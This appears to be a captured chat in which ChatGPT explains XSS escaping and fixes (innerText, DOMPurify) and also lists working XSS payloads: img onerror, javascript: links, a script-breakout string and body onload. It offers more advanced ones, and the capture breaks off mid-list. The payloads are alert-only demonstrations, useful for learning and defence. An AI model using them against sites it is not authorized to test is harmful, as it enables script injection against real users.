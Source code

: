 Example:

<p>This will be interpreted as text: &lt;script&gt;alert('XSS')&lt;/script&gt;</p>

This way, the browser displays the text instead of executing it.
🔥 Why Didn't <script> Work?

Modern browsers often block inline <script> injections, but you can try alternative XSS payloads:
1️⃣ Image Event Handler (Which Already Worked for You)

<img src="x" onerror="alert('XSS!')">

2️⃣ JavaScript URL (If Links Are Allowed)

<a href="javascript:alert('XSS')">Click me</a>

3️⃣ Injecting into setTimeout() or eval()

If you have access to an input field that gets passed to eval(), you can inject:

"><script>setTimeout(()=>alert('XSS'), 1000)</script>

✅ Fixing XSS

If you're demonstrating how to prevent XSS, modify your JavaScript to use .innerText instead of .innerHTML:

document.getElementById("output").innerText = userInput; // Safe

Or use DOMPurify:

document.getElementById("output").innerHTML = DOMPurify.sanitize(userInput);

Let me know if you want to try more advanced payloads! 🚀
You said:
<img src=x onerror=alert('XSS')>
"><script>setTimeout(()=>alert('XSS'), 1000)</script>
<a href="javascript:alert('XSS')">Click me</a>

those all worked, not the common way, any more examples?
ChatGPT said:

You're on the right track! Since your <script> tags didn't work but other event-driven payloads did, your browser might have built-in protections against inline scripts but still allows event-based or attribute-based XSS.
🔥 More XSS Payloads to Try

Here are some additional XSS vectors that might work:
1️⃣ Body Onload Event

If you can inject into the <body>, this will execute on page load:

<body onload=alert('XSS')>

2️⃣ SVG Payload (Works in Many Browsers)

Some sites allow SVG injection, which can execute JavaScript:


3️⃣ Input Field Exploit
